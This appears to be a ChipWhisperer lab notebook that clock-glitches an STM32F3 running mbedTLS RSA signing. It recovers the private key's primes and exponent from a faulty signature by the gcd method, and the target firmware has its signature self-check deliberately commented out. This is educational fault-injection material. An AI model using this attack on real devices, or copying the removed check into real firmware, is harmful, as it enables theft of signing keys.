    arm-none-eabi-gcc -c -mcpu=cortex-m4 -I. -x assembler-with-cpp -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -DF_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f3_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include .././hal/stm32f3/stm32f3_startup.S -o objdir/stm32f3_startup.o
    .
    Linking: simpleserial-rsa-CWLITEARM.elf
    arm-none-eabi-gcc -mcpu=cortex-m4 -I. -mthumb -mfloat-abi=hard -mfpu=fpv4-sp-d16 -fmessage-length=0 -ffunction-sections -gdwarf-2 -DSS_VER=SS_VER_1_1 -DSTM32F303xC -DSTM32F3 -DSTM32 -DDEBUG -DHAL_TYPE=HAL_stm32f3 -DPLATFORM=CWLITEARM -DMBEDTLS -DMBEDTLS_SHA -DF_CPU=7372800UL -O2 -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-rsa.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f3 -I.././hal/stm32f3/CMSIS -I.././hal/stm32f3/CMSIS/core -I.././hal/stm32f3/CMSIS/device -I.././hal/stm32f4/Legacy -I.././crypto/ -I.././crypto/mbedtls//include -std=gnu99 -MMD -MP -MF .dep/simpleserial-rsa-CWLITEARM.elf.d objdir/simpleserial-rsa.o objdir/simpleserial-rsa-xmega.o objdir/simpleserial-rsa-arm.o objdir/simpleserial.o objdir/stm32f3_hal.o objdir/stm32f3_hal_lowlevel.o objdir/stm32f3_sysmem.o objdir/rsa.o objdir/bignum.o objdir/md.o objdir/md5.o objdir/md_wrap.o objdir/sha1.o objdir/sha256.o objdir/sha512.o objdir/ripemd160.o objdir/oid.o objdir/stm32f3_startup.o --output simpleserial-rsa-CWLITEARM.elf --specs=nano.specs -T .././hal/stm32f3/LinkerScript.ld -Wl,--gc-sections -lm -Wl,-Map=simpleserial-rsa-CWLITEARM.map,--cref   -lm  
    .
    Creating load file for Flash: simpleserial-rsa-CWLITEARM.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature simpleserial-rsa-CWLITEARM.elf simpleserial-rsa-CWLITEARM.hex
    .
    Creating load file for EEPROM: simpleserial-rsa-CWLITEARM.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    	--change-section-lma .eeprom=0 --no-change-warnings -O ihex simpleserial-rsa-CWLITEARM.elf simpleserial-rsa-CWLITEARM.eep || exit 0
    .
    Creating Extended Listing: simpleserial-rsa-CWLITEARM.lss
    arm-none-eabi-objdump -h -S -z simpleserial-rsa-CWLITEARM.elf > simpleserial-rsa-CWLITEARM.lss
    .
    Creating Symbol Table: simpleserial-rsa-CWLITEARM.sym
    arm-none-eabi-nm -n simpleserial-rsa-CWLITEARM.elf > simpleserial-rsa-CWLITEARM.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
      20956	    108	   1820	  22884	   5964	simpleserial-rsa-CWLITEARM.elf
    +--------------------------------------------------------
    + Built for platform CW-Lite Arm (STM32F3)
    +--------------------------------------------------------





.. parsed-literal::

    simpleserial-rsa-arm.c: In function 'simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign':
    simpleserial-rsa-arm.c:190:28: warning: unused variable 'diff_no_optimize' [-Wunused-variable]
         volatile unsigned char diff_no_optimize;
                                ^~~~~~~~~~~~~~~~
    simpleserial-rsa-arm.c:189:19: warning: unused variable 'diff' [-Wunused-variable]
         unsigned char diff;
                       ^~~~
    simpleserial-rsa-arm.c:188:12: warning: unused variable 'i' [-Wunused-variable]
         size_t i;
                ^
    simpleserial-rsa-arm.c: In function 'real_dec':
    simpleserial-rsa-arm.c:344:21: warning: pointer targets in passing argument 1 of 'mbedtls_sha256' differ in signedness [-Wpointer-sign]
          mbedtls_sha256(MESSAGE, 12, hash, 0);
                         ^~~~~~~
    In file included from simpleserial-rsa-arm.c:28:0:
    .././crypto/mbedtls//include/mbedtls/sha256.h:127:6: note: expected 'const unsigned char \*' but argument is of type 'const char \*'
     void mbedtls_sha256( const unsigned char \*input, size_t ilen,
          ^~~~~~~~~~~~~~
    simpleserial-rsa-arm.c: In function 'get_pt':
    simpleserial-rsa-arm.c:370:1: warning: control reaches end of non-void function [-Wreturn-type]
     }
     ^



Attack Script
-------------

Start by initializing the ChipWhisperer:


**In [4]:**

.. code:: ipython3

    %run "Helper_Scripts/Setup_Generic.ipynb"


**In [5]:**

.. code:: ipython3

    if SCOPETYPE == "OPENADC":
        scope.clock.adc_src = "clkgen_x1"

Next, program it with our new firmware:


**In [6]:**

.. code:: ipython3

    import time
    fw_path = "../hardware/victims/firmware/simpleserial-rsa/simpleserial-rsa-{}.hex".format(PLATFORM)
    cw.program_target(scope, prog, fw_path)
    time.sleep(1)


**Out [6]:**



.. parsed-literal::

    Detected known STMF32: STM32F302xB(C)/303xB(C)
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 21063 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 21063 bytes
    


Verifying Signatures
~~~~~~~~~~~~~~~~~~~~

Let's start by seeing if we can verify the signature that we get back.
First, we run the signature calculation (there's a ``time.sleep()`` here
to make sure the calculation finishes. You may need to increase this):


**In [7]:**

.. code:: ipython3

    import time
    target.flush()
    scope.arm()
    target.write("t\n")
        
    ret = scope.capture()
    if ret:
        print('Timeout happened during acquisition')
        
    time.sleep(2)
    output = target.read(timeout=10)


**In [8]:**

.. code:: ipython3

    if SCOPETYPE == "OPENADC":
        print(scope.adc.trig_count)


**Out [8]:**



.. parsed-literal::

    12693569
    


As you can see, the signature takes a long time! For the STM32F3, it
should be around 12.7M cycles. Next, let's get the rest of the signature
back and see what it looks like.


**In [9]:**

.. code:: ipython3

    target.write("1\n")
    time.sleep(0.2)
    output += target.read(timeout=10)
    
    target.write("2\n")
    time.sleep(0.2)
    output += target.read(timeout=10)


**In [10]:**

.. code:: ipython3

    print(output)


**Out [10]:**



.. parsed-literal::

    r4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD
    z00
    r85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D
    z00
    r7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    z00
    
    


You should see something like:

::

    r4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD
    z00
    r85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D
    z00
    r7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    z00

We'll need to strip all the extra simpleserial stuff out. This can be
done like so:


**In [11]:**

.. code:: ipython3

    newout = output.replace("r", "").replace("\nz00","").replace("\n","")
    print(newout)


**Out [11]:**



.. parsed-literal::

    4F09799F6A59081B725599753330B7A2440ABC42606601622FE0C582646E32555303E1062A2989D9B4C265431ADB58DD85BB33C4BB237A311BC40C1279528FD6BB36F94F534A4D8284A18AB8E5670E734C55A6CCAB5FB5EAE02BA37E2D56648D7A13BBF17A0E07D607C07CBB72C7A7A77076376E8434CE6E136832DC95DB3D80
    


Then we can convert this to binary using binascii:


**In [12]:**

.. code:: ipython3

    from binascii import unhexlify, hexlify
    sig = unhexlify(newout)

Finally, we can verify that the signature is correct using the
PyCryptodome package:


**In [13]:**

.. code:: ipython3

    from Crypto.PublicKey import RSA
    from Crypto.Signature import PKCS1_v1_5 
    
    from Crypto.Hash import SHA256
    
    E = 0x10001
    N = 0x9292758453063D803DD603D5E777D7888ED1D5BF35786190FA2F23EBC0848AEADDA92CA6C3D80B32C4D109BE0F36D6AE7130B9CED7ACDF54CFC7555AC14EEBAB93A89813FBF3C4F8066D2D800F7C38A81AE31942917403FF4946B0A83D3D3E05EE57C6F5F5606FB5D4BC6CD34EE0801A5E94BB77B07507233A0BC7BAC8F90F79
    m = b"Hello World!"
    
    hash_object = SHA256.new(data=m)
    pub_key = RSA.construct((N, E))
    signer = PKCS1_v1_5.new(pub_key) 
    sig_check = signer.verify(hash_object, sig)
    print(sig_check)
    
    assert sig_check, "Failed to verify signature on device. Got: {}".format(newout)


**Out [13]:**



.. parsed-literal::

    True
    


If everything worked out correctly, you should see ``True`` printed
above. Now onto the actual attack.

Getting a Glitch
~~~~~~~~~~~~~~~~

As usual, we'll start off by setting up the glitch module:


**In [14]:**

.. code:: ipython3

    scope.glitch.clk_src = "clkgen"
    scope.glitch.output = "clock_xor"
    scope.glitch.trigger_src = "ext_single"
    scope.glitch.repeat = 1
    scope.glitch.width = -9
    scope.glitch.offset = -38.3
    scope.io.hs2 = "glitch"
    print(scope.glitch)
    from collections import namedtuple
    Range = namedtuple('Range', ['min', 'max', 'step'])


**Out [14]:**



.. parsed-literal::

    clk_src     = clkgen
    width       = -8.984375
    width_fine  = 0
    offset      = -38.28125
    offset_fine = 0
    trigger_src = ext_single
    arm_timing  = after_scope
    ext_offset  = 0
    repeat      = 1
    output      = clock_xor
    
    


Now for our actual attack loop. There's a lot going on here, so we'll
move through a little slower than usual. Overall, what we want to do is:
\* Insert a glitch \* Read the signature back \* Verify that it's
correct

The first step is the same as earlier. For the last two, we'll cheat a
little by checking the for the beginning of the correct signature before
proceeding, but we could also read back the whole thing:

.. code:: python

    # Read back signature
    output = target.read(timeout=10)
        if "4F09799" not in output:
            #Something abnormal has happened

Now that we've found some abnormal behaviour, we need to verify that the
target hasn't crashed. This can be done pretty easily by checking if we
got anything at all:

.. code:: python

    if "4F09799" not in output:
        #Something abnormal has happened
        if len(output) > 0:
            # Possible glitch!
        else:
            # Crash, reset and try again
            print(f"Probably crash at {scope.glitch.ext_offset}")
            reset_target(scope)
            time.sleep(0.5)

As a last step, we'll build our full signature and do one final check to
make sure everything looks okay:

.. code:: python

    if len(output) > 0:
        # Possible glitch!
        print(f"Possible glitch at offset {scope.glitch.ext_offset}\nOutput: {output}")
        
        # get rest of signature back
        target.go_cmd = '1\\n'
        target.go()
        time.sleep(0.2)
        output += target.read(timeout=10)

        target.go_cmd = '2\\n'
        target.go()
        time.sleep(0.2)
        output += target.read(timeout=10)
        
        # strip out extra simpleserial stuff
        newout = output.replace("r", "").replace("\nz00","").replace("\n","")
        
        print(f"Full output: {newout}")
        if (len(newout) == 256) and "r0001F" not in output:
            print("Very likely glitch!")
            break

We'll add in scanning over different over different offsets as well.
We'll start at an offset of 7M cycles. We actually have a lot of area
that we could place the glitch in, so the starting point is fairly
arbitrary. For the STM32F3, this places the glitch near the beginning of
the calculation for :math:`s_2`. If you'd like, you can move
``trigger_low()`` into ``simpleserial_mbedtls_rsa_private()`` to see how
long different parts of the algorithm take.

All together, our attack loops looks like this:


**In [15]:**

.. code:: ipython3

    from tqdm import tnrange
    import time
    for i in tnrange(7000000, 7100000):
        scope.glitch.ext_offset = i
        scope.adc.timeout = 3
        target.flush()
        scope.arm()
        target.write("t\n")
        
        ret = scope.capture()
        if ret:
            print('Timeout happened during acquisition')
        time.sleep(2)
        
        # Read back signature
        output = target.read(timeout=10)
        if "4F09799" not in output:
            # Something abnormal happened
            if len(output) > 0:
                # Possible glitch!
                print("Possible glitch at offset {}\nOutput: {}".format(scope.glitch.ext_offset, output))
                
                # Get rest of signature back
                target.write("1\n")
                time.sleep(0.2)
                output += target.read(timeout=10)
                
                target.write("2\n")
                time.sleep(0.2)
                output += target.read(timeout=10)
                
                # Strip out extra simpleserial stuff
                newout = output.replace("r", "").replace("\nz00","").replace("\n","")
                print("Full output: {}".format(newout))
                if (len(newout) == 256) and "r0001F" not in output:
                    print("Very likely glitch!")
                    break
            else:
                # Crash, reset and try again
                print("Probably crashed at {}".format(scope.glitch.ext_offset))
                reset_target(scope)
                time.sleep(0.5)


**Out [15]:**





.. parsed-literal::

    Probably crashed at 7000012
    Probably crashed at 7000014
    Probably crashed at 7000017
    Probably crashed at 7000028
    Possible glitch at offset 7000042
    Output: r1187B790564D43D48CD140A7FF890EEA713D1603D8CBC57CF070EE951479C75E93FE98AD04F535109D957F9AB9AA25DB
    z00
    
    Full output: 1187B790564D43D48CD140A7FF890EEA713D1603D8CBC57CF070EE951479C75E93FE98AD04F535109D957F9AB9AA25DB2FB1A5521C68C986A270782B7A579A12B9AE79DF2F59ED9E6694C64C40AAD9FE46B203DB75792016EEA315F7CAA8F9AAC0FD89052FFAC29C022E32B541B150419E2B6604DDA6BF2582F62C9F7876393D
    Very likely glitch!
    


Now, let's convert our glitched signature to binary and move on to the
final part of the tutorial


**In [16]:**

.. code:: ipython3

    sig = unhexlify(newout)
    print(sig)


**Out [16]:**



.. parsed-literal::

    b'\x11\x87\xb7\x90VMC\xd4\x8c\xd1@\xa7\xff\x89\x0e\xeaq=\x16\x03\xd8\xcb\xc5|\xf0p\xee\x95\x14y\xc7^\x93\xfe\x98\xad\x04\xf55\x10\x9d\x95\x7f\x9a\xb9\xaa%\xdb/\xb1\xa5R\x1ch\xc9\x86\xa2px+zW\x9a\x12\xb9\xaey\xdf/Y\xed\x9ef\x94\xc6L@\xaa\xd9\xfeF\xb2\x03\xdbuy \x16\xee\xa3\x15\xf7\xca\xa8\xf9\xaa\xc0\xfd\x89\x05/\xfa\xc2\x9c\x02.2\xb5A\xb1PA\x9e+f\x04\xdd\xa6\xbf%\x82\xf6,\x9fxv9='
    


Completing The Attack
~~~~~~~~~~~~~~~~~~~~~

We've got our glitched signature, but we've still got a little work to
do. As was mentioned earlier, the message that's signed isn't the
original message, it's a PKCS#1 v1.5 padded hash of it. Luckily, this
standard's fairly simple. PKCS#1 v1.5 padding looks like:

\|00\|01\|ff...\|00\|hash\_prefix\|message\_hash\|

Here, the ff... part is a string of ff bytes long enough to make the
size of the padded message the same as N, while hash\_prefix is an
identifier number for the hash algorithm used on message\_hash. In our
case, SHA256 has the hash prefix
``3031300d060960864801650304020105000420``.

Altogether, the function to build this message looks like:


**In [17]:**

.. code:: ipython3

    def build_message(m, N):
        sha_id = "3031300d060960864801650304020105000420"
        N_len = (len(bin(N)) - 2 + 7) // 8
        pad_len = (len(hex(N)) - 2) // 2 - 3 - len(m)//2 - len(sha_id)//2
        padded_m = "0001" + "ff" * pad_len + "00" + sha_id + m
        return padded_m
    

Now that we've got our function, we can build our message:


**In [18]:**

.. code:: ipython3

    from Crypto.Hash import SHA256
    from binascii import hexlify
    
    hash_object = SHA256.new(data=b"Hello World!")
    hashed_m = hexlify(hash_object.digest()).decode()
    padded_m = build_message(hashed_m, N)
    print(hashed_m)
    print(padded_m)


**Out [18]:**



.. parsed-literal::

    7f83b1657ff1fc53b92dc18148a1d65dfc2d4b1fa3d677284addd200126d9069
    0001ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff003031300d0609608648016503040201050004207f83b1657ff1fc53b92dc18148a1d65dfc2d4b1fa3d677284addd200126d9069
    


Now all that's left is to use our gcd formula from earlier:

.. math:: p = gcd(s'^e - m, N)

And we should get either p or q! These calculations can take a while
(the Python version takes a few minutes), so the next block will try to
use gmpy2 (a high precision library that runs much quicker than base
Python). If you don't have gmpy2 installed, it will fall back to Python.


**In [19]:**

.. code:: ipython3

    from math import gcd
    N = 0x9292758453063D803DD603D5E777D7888ED1D5BF35786190FA2F23EBC0848AEADDA92CA6C3D80B32C4D109BE0F36D6AE7130B9CED7ACDF54CFC7555AC14EEBAB93A89813FBF3C4F8066D2D800F7C38A81AE31942917403FF4946B0A83D3D3E05EE57C6F5F5606FB5D4BC6CD34EE0801A5E94BB77B07507233A0BC7BAC8F90F79
    e = 0x10001
    try:
        import gmpy2
        from gmpy2 import mpz
        sig_int = mpz(int.from_bytes(sig, "big"))
        m_int = mpz(int.from_bytes(unhexlify(padded_m), "big"))
        p_test = gmpy2.gcd(sig_int**e - m_int, N)
    except (ImportError, ModuleNotFoundError) as error:
        print("gmpy2 not found, falling back to Python")
        sig_int = int.from_bytes(sig, "big")
        padded_m_int = int.from_bytes(unhexlify(padded_m), "big")
        a = int.from_bytes(sig, "big")**e - int.from_bytes(unhexlify(padded_m), "big")
        p_test = gcd(a, N)
        
    print(hex(p_test))


**Out [19]:**



.. parsed-literal::

    0xc36d0eb7fcd285223cfb5aaba5bda3d82c01cad19ea484a87ea4377637e75500fcb2005c5c7dd6ec4ac023cda285d796c3d9e75e1efc42488bb4f1d13ac30a57
    


Open up ``simpleserial-arm-rsa.c`` and see if the value printed out is
either p or q!

Getting the Rest of the Private Values
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

As mentioned earler, now that we have either p or q, we can derive the
rest of the private values. The easiest is the other prime factor, which
is just:


**In [20]:**

.. code:: ipython3

    q_test = N//p_test
    print(hex(q_test))


**Out [20]:**



.. parsed-literal::

    0xc000df51a7c77ae8d7c7370c1ff55b69e211c2b9e5db1ed0bf61d0d9899620f4910e4168387e3c30aa1e00c339a795088452dd96a9a5ea5d9dca68da636032af
    


Finally, there's d, which can be derived by:


**In [21]:**

.. code:: ipython3

    phi = (q_test - 1)*(p_test - 1)
    def egcd(a, b):
        x,y, u,v = 0,1, 1,0
        while a != 0:
            q, r = b//a, b%a
            m, n = x-u*q, y-v*q
            b,a, x,y, u,v = a,r, u,v, m,n
            gcd = b
        return gcd, x, y
    
    gcd, d, b = egcd(e, phi)
    
    print(hex(d))


**Out [21]:**



.. parsed-literal::

    0x24bf6185468786fdd303083d25e64efc66ca472bc44d253102f8b4a9d3bfa75091386c0077937fe33fa3252d28855837ae1b484a8a9a45f7ee8c0c634f99e8cddf79c5ce07ee72c7f123142198164234cabb724cf78b8173b9f880fc86322407af1fedfdde2beb674ca15f3e81a1521e071513a1e85b5dfa031f21ecae91a34d
    


Going Further
-------------

There's still more you can do with this attack:

-  You can try glitching the other part of the signature calculation to
   verify that you get the other prime factor of N out
-  We used clock glitching in this tutorial. You may want to try it with
   voltage glitching as well

As mentioned earlier in the tutorial, a verification of the calculated
signature was removed:

.. code:: c

        /* Compare in constant time just in case */
        /* for( diff = 0, i = 0; i < ctx->len; i++ ) */
        /*     diff |= verif[i] ^ sig[i]; */
        /* diff_no_optimize = diff; */

        /* if( diff_no_optimize != 0 ) */
        /* { */
        /*     ret = MBEDTLS_ERR_RSA_PRIVATE_FAILED; */
        /*     goto cleanup; */
        /* } */

This part is near the end of
``simpleserial_mbedtls_rsa_rsassa_pkcs1_v15_sign()``. If you want a
larger challenge, you can try uncommenting that and trying to glitch
past it as well.

Tests
-----


**In [22]:**

.. code:: ipython3

    real_p = "0xC36D0EB7FCD285223CFB5AABA5BDA3D82C01CAD19EA484A87EA4377637E75500FCB2005C5C7DD6EC4AC023CDA285D796C3D9E75E1EFC42488BB4F1D13AC30A57".lower()
    real_q = "0xC000DF51A7C77AE8D7C7370C1FF55B69E211C2B9E5DB1ED0BF61D0D9899620F4910E4168387E3C30AA1E00C339A795088452DD96A9A5EA5D9DCA68DA636032AF".lower()
    assert (hex(p_test) == real_p) or (hex(p_test) == real_q), f"Failed to break p or q. Got {hex(p_test)}, excepted {real_p} or {real_q}"


**In [23]:**

.. code:: ipython3

    assert (hex(q_test) == real_p) or (hex(q_test) == real_q), f"Failed to break p or q. Got {hex(p_test)}, excepted {real_p} or {real_q}"


**In [24]:**

.. code:: ipython3

    real_d = "0x24bf6185468786fdd303083d25e64efc66ca472bc44d253102f8b4a9d3bfa75091386c0077937fe33fa3252d28855837ae1b484a8a9a45f7ee8c0c634f99e8cddf79c5ce07ee72c7f123142198164234cabb724cf78b8173b9f880fc86322407af1fedfdde2beb674ca15f3e81a1521e071513a1e85b5dfa031f21ecae91a34d"
    assert (hex(d) == real_d), f"Failed to break private key d. Got {hex(d)}, expected {real_d}"


**In [ ]:**


